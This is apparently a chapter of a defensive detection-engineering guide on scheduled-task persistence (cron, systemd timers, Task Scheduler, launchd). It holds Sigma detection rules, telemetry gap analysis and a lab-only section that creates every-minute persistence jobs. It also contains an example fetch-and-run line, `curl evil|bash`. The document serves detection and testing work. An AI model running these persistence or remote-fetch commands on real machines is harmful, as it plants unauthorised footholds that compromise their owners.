




# Scheduled execution

<div class="chapter-meta"><div class="attack-techniques"><span class="chapter-meta-label">ATT&amp;CK</span><a class="attack-badge" href="https://attack.mitre.org/techniques/T1053/002/"><span>At</span><code>T1053.002</code></a><a class="attack-badge" href="https://attack.mitre.org/techniques/T1053/003/"><span>Cron</span><code>T1053.003</code></a><a class="attack-badge" href="https://attack.mitre.org/techniques/T1053/005/"><span>Scheduled task</span><code>T1053.005</code></a><a class="attack-badge" href="https://attack.mitre.org/techniques/T1053/006/"><span>Systemd timer</span><code>T1053.006</code></a></div><div class="chapter-meta-details"><span><b>Tactic</b> Persistence / Execution</span><span><b>Chokepoint</b> scheduler configuration write</span></div></div>

Run code on a timer, every minute, every login, every Tuesday, and the OS's scheduler
re-launches it for you. Same shape as [service/daemon persistence](01-service-daemon.md): a
config is registered with a manager that runs it later. The differences are in *which* events
each OS emits at registration versus execution, and that's where the detection lives.

## 1. The behavior & invariant

The attacker registers a time-triggered job with the scheduler (Task Scheduler / `cron` /
`launchd`). As with services, there are **two observable moments**, the **schedule config
is written** (a task XML + registry entry, a crontab line, a plist) and the **scheduler is
told about it** (`schtasks`, `crontab`, `launchctl`), and the manager tool can be skipped.

> **Invariant:** a time-trigger definition must land where the scheduler reads it. The config
> write is the durable artifact; the scheduler command is optional and evadable.

## 2. Threats that use it

<div class="threat-use-grid">
<article class="threat-use-card os-windows"><span class="threat-use-chip">WINDOWS</span><h3>Emotet, APT29, Tarrask</h3><p><strong>What happens:</strong> Tasks beacon repeatedly, arrive through COM, or are written into TaskCache to avoid <code>schtasks.exe</code>.</p><p><strong>Detect here:</strong> Correlate task XML and TaskCache changes. Process-only rules miss the quiet paths.</p><p class="threat-use-source"><a href="https://www.microsoft.com/en-us/security/blog/2022/04/12/tarrask-malware-uses-scheduled-tasks-for-defense-evasion/">Source</a></p></article>
<article class="threat-use-card os-linux"><span class="threat-use-chip">LINUX</span><h3>LemonDuck and Kinsing</h3><p><strong>What happens:</strong> A crontab or systemd timer re-fetches a payload on a cadence.</p><p><strong>Detect here:</strong> The new cron entry or timer is the lasting clue. Each repeat execution gives you another chance to catch it.</p><p class="threat-use-source"><a href="https://attack.mitre.org/software/S0949/">Source</a></p></article>
<article class="threat-use-card os-macos"><span class="threat-use-chip">MACOS</span><h3>Silver Sparrow</h3><p><strong>What happens:</strong> An hourly LaunchAgent checks in. Other macOS families use <code>RunAtLoad</code> instead.</p><p><strong>Detect here:</strong> Treat the plist as the shared artifact. The exact scheduling key changes, but the launchd configuration does not.</p><p class="threat-use-source"><a href="https://redcanary.com/blog/threat-intelligence/clipping-silver-sparrows-wings/">Source</a></p></article>
</div>

## 3. The behavioral graph & the cut



The cut is the **schedule-config write** (red). Note the asymmetry from services: schedulers
emit a *separate execution* signal each time the job fires, useful, but it's the recurring
**run**, not the **registration**. Catching the registration still means watching the config.

## 4. Per-OS realization & telemetry overlay

### Windows

`schtasks.exe`, the PowerShell `ScheduledTasks` module, or Task Scheduler **COM**; tasks
stored as XML in `C:\Windows\System32\Tasks\` and in the registry `TaskCache`.



```admonish abstract title="Safeguard pressure: Windows"
**Observability > suppression** (anyone can schedule). Unusually, Windows here has a
**default-on registration event**: `Microsoft-Windows-TaskScheduler/Operational` **106**
(task registered) fires on all editions, *better* than the service story, where 7045 is
evadable and 4698 needs an off-by-default audit policy. The gap: **direct TaskCache registry
injection** (Wizard Spider) skips `schtasks.exe` (no Sysmon EID 1) and may not raise 106 at
all, EDR registry events (Sysmon 12/13) become the only signal. Two more traps: 4698 **omits
the command line** (correlate to the XML), and the task runs as a child of **`svchost`**, not
`schtasks`, a parent masquerade that fools naive baselining. **Displaces to** Run keys / WMI
when monitored.
```

### Linux

`cron` (`/etc/crontab`, `/etc/cron.d/`, `/var/spool/cron/crontabs/<user>`), `at`/`atd`, and
systemd **`.timer`** units (+ a paired `.service`).



```admonish abstract title="Safeguard pressure: Linux"
**Enabled + doubly blind.** No safeguard suppresses scheduling, and the SIEM tier is the
weakest of all the persistence chapters: there is **no creation event** (cron logs only when
a job *runs*, as `CRON[pid]`), and that run log **truncates argv**, a cron line of
`/bin/bash -c 'curl evil|bash'` shows up as just `/bin/bash`, losing the payload. `auditd` is
off by default, so the config-write chokepoint is dark unless explicitly watched. Extra traps:
a `.timer` can be **copied/symlinked** into `/etc/systemd/system/` and auto-discovered without
`systemctl` (file-create rules that only match `CREATE` miss it); `at` is structurally opaque
and under-ruled; per-user crontabs have no central registry. Full command + registration need
the **EDR tier** (eBPF / `auditd` EXECVE).
```

### macOS

Scheduling **is** `launchd`: `StartInterval` / `StartCalendarInterval` keys make a plist a
timed job, the *same* plists, directories, and signals as
[service/daemon persistence](01-service-daemon.md). `cron` still works but is legacy,
discouraged, and needs Full Disk Access; `at`/`atrun` is disabled by default.



```admonish abstract title="Safeguard pressure: macOS"
**Convergence is the story.** There is barely a separate "scheduled task" concept, a timed
plist is just a launch item, caught by the same **ESF `NOTIFY_CREATE` + BTM** signals as a
daemon (and the same blind spot: the unified-log SIEM tier sees no plist write). `~/Library/
LaunchAgents` needs **no privilege**. BTM is bypassable (`SIGSTOP` the agent, `sfltool
resetbtm`, or register via `defaults` so only file-create catches it). The legacy paths are
*loud because rare*: a `cron` or `at` attempt on modern macOS is itself anomalous.
```

## 5. Visibility delta

| Graph element |  Windows |  Linux: EDR / SIEM |  macOS: EDR / SIEM |
|---|---|---|---|
| **schedule-config write** (the cut) | Sysmon 11/13 ✅ / event-log ❌ | eBPF ✅ / auditd ⚠️ off | ESF `NOTIFY_CREATE` ✅ / unified log ❌ |
| **registration event** | ✅ **Op-log 106 (default-on)** ⚠️ direct-injection evades | ❌ **none exists** | ⚠️ BTM (13.3+, bypassable) |
| execution event | Op-log 200/201 ✅ | `CRON[pid]` ⚠️ **argv truncated** | launchd / ESF exec ✅ |
| full command captured | ⚠️ not in 4698 (in XML) | ❌ truncated at SIEM | ✅ ESF args |

The scheduling-specific lesson: **Windows is the one OS with a default-on registration event**,
Linux has neither registration *nor* full-command logging without EDR, and macOS folds the
whole thing into launchd. On every OS the durable signal remains the **config write**.

## 6. Detect the cut

### Windows, task registered + direct-injection complement

```yaml
title: Windows Scheduled Task, schtasks /create SYSTEM + high-frequency trigger
status: test   # validated against a scheduled-task creation: all three anchors
               # fired on a SYSTEM-context schtasks /create /sc MINUTE /ru SYSTEM run; baseline clean.
               # FIRED EID 1: Image=schtasks.exe  CommandLine contains /ru SYSTEM /sc MINUTE
               # FIRED EID 11: TargetFilename=C:\Windows\System32\Tasks\lab-sched02 (task XML drop)
               # FIRED EID 106: TaskName=\lab-sched02  UserContext=S-1-5-18 (SYSTEM SID)
               #   NOTE: UserContext may be emitted as SID (S-1-5-18) not display name (SYSTEM), #   match on either: UserContext|contains 'SYSTEM' OR UserContext = 'S-1-5-18'.
logsource: { product: windows, service: taskscheduler }   # Operational log, default-on
detection:
  selection: { EventID: 106 }   # registration PRESENCE only, carries TaskName + UserContext
  system_context:
    UserContext|contains: 'S-1-5-18'   # SYSTEM SID, high-value registration anchor
  condition: selection and system_context
falsepositives: [legitimate SYSTEM-context task registrations, pair with EID 1 schtasks CommandLine]
level: medium
# Correlation: Sysmon EID 1 schtasks.exe CommandLine (carries the action 106 omits);
# Sysmon EID 11 on C:\Windows\System32\Tasks\<name> (task XML file drop anchor).
# EID 106 does NOT carry the task action/command line, source it from EID 1 or the XML.
```

```yaml
title: Windows TaskCache Direct Registry Injection (Wizard Spider / TrickBot complement)
status: test   # validated against a direct TaskCache update: EID 13 fired
               # on direct PowerShell write to \Schedule\TaskCache\Tasks\ and \Tree\ keys (no EID 106);
               # EID 11 fired on companion XML drop under \System32\Tasks\. Baseline clean.
               # FIRED: TargetObject=HKLM\...\Schedule\TaskCache\Tree\LabSched02Noop\SD  Image=powershell.exe
               #        TargetFilename=C:\Windows\System32\Tasks\LabSched02Noop  (EID 11 corroboration)
               # EVASION CONFIRMED: EID 106 did NOT fire, validates the 106-blind complement.
logsource: { product: windows, category: registry_set }   # Sysmon EID 13
detection:
  taskcache_write:
    TargetObject|contains:
      - '\Schedule\TaskCache\Tasks\'
      - '\Schedule\TaskCache\Tree\'
  condition: taskcache_write
falsepositives: [Task Scheduler service writing its own cache on task registration, pair with EID 106 absence]
level: high
# Correlate: Sysmon EID 11 on C:\Windows\System32\Tasks\<name> (companion XML drop).
# EID 106 absence on the same TaskName = strong evasion signal (direct-inject, not schtasks/COM).
```

### Linux, cron/timer config write (auditd)

```yaml
title: Linux Cron or Systemd Timer Created
status: test   # reconciled vs capture: both anchors fired on live auditd telemetry (2026-06-26), baseline clean
logsource: { product: linux, service: auditd }   # requires a watch on the scheduler dirs
detection:
  cron_write:
    type: PATH
    # reconciled vs capture: captured PATH records were name=/etc/cron.d/lab-sched02-marker and
    # name=/etc/systemd/system/lab-sched02.timer, both nametype=CREATE, the startswith prefixes and
    # the CREATE branch matched the real events verbatim; no selection field needed correcting.
    name|startswith: ['/etc/cron', '/var/spool/cron/', '/etc/systemd/system/']
    nametype: ['CREATE', 'NORMAL']   # CREATE = new file / rename destination / drop-in; NORMAL = in-place edit
  condition: cron_write
falsepositives: [package installs, config management]
level: medium
# NOTE: auditd is off by default, blind until a -w/-F dir watch is deployed on the scheduler dirs.
# auditd PATH nametypes are PARENT / NORMAL / CREATE / DELETE, there is NO "RENAME" nametype. `crontab`
# installs via a temp file + rename(): the rename DESTINATION (/var/spool/cron/crontabs/<user>) emits
# nametype=CREATE and the source emits DELETE, so the CREATE branch already catches it. The per-user
# crontab-spool rename arm is record-only / non-gating, its destination nametype is distro-dependent
# (NORMAL/CREATE), so do not rely on it alone; the cron.d + .timer CREATE anchors are the reliable ones.
# cron.d drop-ins and copied-in .timer files also emit CREATE; an in-place edit of an existing crontab
# emits NORMAL. Watch write+attr (-p wa), not CREATE-only. The CRON[pid] run log truncates argv; use
# eBPF/auditd EXECVE for the full command line.
```

```admonish success title="Confirmed emulation: event excerpt and rule match"
~~~
# cron.d drop-in (key=cron)
type=PATH msg=audit(...:7807): item=1 name="/etc/cron.d/lab-sched02-marker" nametype=CREATE mode=file,644
# systemd .timer drop (key=svc_unit/cron)
type=PATH msg=audit(...:7848): item=1 name="/etc/systemd/system/lab-sched02.timer" nametype=CREATE mode=file,644
~~~

**Rule match:** both paths are schedule configuration, and both writes report `nametype=CREATE` under the monitored directories.

Both reliable anchors fired (cron.d drop + `.timer` drop), each `nametype=CREATE` under the
`cron_write` selection. The per-user crontab-spool rename arm is record-only / non-gating
(destination nametype is distro-dependent), so it is not relied on here.

Observed on Debian 12 with auditd and bpftrace. The benign baseline did not trigger the rule.
```

### macOS, scheduled plist created

```yaml
title: macOS Scheduled LaunchAgent/Daemon Plist Created
status: experimental
logsource: { product: macos, category: file_event }   # ESF NOTIFY_CREATE
detection:
  selection:
    TargetFilename|endswith: '.plist'
    TargetFilename|contains: ['/Library/LaunchDaemons/', '/Library/LaunchAgents/', '/LaunchAgents/']
  condition: selection
falsepositives: [apps registering periodic helpers]
level: medium
# Same detection as service/daemon persistence, scheduling is launchd. Complement with the
# BTM event (NOTIFY_BTM_LAUNCH_ITEM_ADD) via an ESF pipeline; inspect plists for StartInterval /
# StartCalendarInterval to distinguish timed jobs from RunAtLoad.
```

## 7. Reproduce it yourself

ART: T1053.005 (Windows), T1053.003/.002/.006 (Linux), T1053 (macOS launchd). Manual (lab only):

```admonish example title="Manual repro (lab only)"
~~~powershell
# Windows, every minute
schtasks /create /tn EvilTask /tr "C:\Windows\Temp\p.exe" /sc minute /mo 1 /ru SYSTEM
~~~
~~~sh
# Linux, user cron
( crontab -l 2>/dev/null; echo "* * * * * /tmp/p" ) | crontab -
# Linux, systemd timer
printf '[Timer]\nOnUnitActiveSec=60\n[Install]\nWantedBy=timers.target\n' | sudo tee /etc/systemd/system/evil.timer
sudo systemctl daemon-reload && sudo systemctl enable --now evil.timer
# macOS, interval LaunchAgent (user; no sudo)
cat > ~/Library/LaunchAgents/com.evil.sched.plist <<'EOF'
<plist version="1.0"><dict><key>Label</key><string>com.evil.sched</string>
<key>ProgramArguments</key><array><string>/bin/echo</string><string>tick</string></array>
<key>StartInterval</key><integer>60</integer></dict></plist>
EOF
launchctl bootstrap gui/$(id -u) ~/Library/LaunchAgents/com.evil.sched.plist
~~~
```

## 8. False positives & pitfalls

Scheduled jobs are everywhere legitimately, OS maintenance, updaters, backups, telemetry,
package-shipped cron jobs and timers, app helpers. The bare schedule is noise.

```admonish tip title="Noise → signal"
Gate on the **action**, not the schedule: payloads in user-writable/temp paths, interpreters
with inline/encoded code, network fetches. Pivot on **parent** for the write (a task/cron
born from a web-RCE child, not an installer), but remember the *execution* parent is always
the scheduler (`svchost` / `cron` / `launchd`), so don't anchor execution detection there.
High-frequency triggers (`/sc minute`, `StartInterval` of seconds, `* * * * *`) are a strong
secondary signal, legitimate jobs rarely fire that often.
```
